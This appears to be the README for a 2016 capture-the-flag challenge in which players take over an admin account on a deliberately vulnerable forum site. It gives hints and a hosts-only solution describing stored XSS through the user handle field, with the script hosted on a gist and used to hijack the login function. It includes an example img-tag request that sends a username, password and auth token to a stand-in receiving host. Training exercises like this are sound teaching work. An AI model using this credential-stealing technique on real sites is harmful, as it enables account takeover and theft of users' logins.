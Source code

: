 # HackTheStack - Bad Authentiation
### John Lee (2016)

# For the challengers
This challenge is for you to login as an admin for one of the hottest forum sites to come out since Yahoo! Answers.
In the developers' haste to get the product out, they missed some vital code to keep some nasty ne'er-do-wells from getting access to their site.

However, the creators aren't completely forgetful, there are some roadblocks in the way to do this. Don't be discouraged! Most of them are still insecure if you stretch the limits. (But don't stretch too much, the website might break because of you.)

There's a rumor that one of the admins have been logging in quite often. Login as them and extract a super-secret admin code that they use for everything. Seriously. They never took `ECE 404/CS 426`.

Present the code to one of the hosts to win!

## Some hints *[only show if necessary]*
- It is not SQL injection.
- Use XSS
- Have them look at the 'recent users' area.
- If they are having problems with the max entered size, have them upload a script onto https://gist.github.com/ and use the RAW link as their created user's handle.
- Getting around CORS
  - Try creating an \<img> with the data included as a GET parameter in the `src`.
  
# Hosts Only . . .
  
## Detailed Problem
The website is supposed to emulate a forum. Most forms of auth are secure *except* the `handle` which checks for `<script>` but not `<script src= . . .`. The challenger is supposed to inject some JS that replaces the login function with one that grabs the token or password. 

### Recommendation at this point
My BIGGEST recommendation is to use https://gist.github.com/. Once there they can make something called `c.js` and put some arbituary JS code in it. once there, use the **RAW** link as their handle and voila! Injected JS that they **CAN EDIT ACTIVELY**. This way if they break the site they can just change their code here to revert it.


Once grabbed, it will then send it to a page that listens for any request and grabs the parameters. ( We might want to provide this ). To send it out, the easiest method is to bind it with an img tag. \<img src="https://mysecretwebsite.ioo/receive?user=admin&password=yadada&authToken=1234567">. 

Once received, they emulate that same request on the web page and get the new page, an admin page that contains the number. It only works on verified login, so they can't bypass this any other way. 
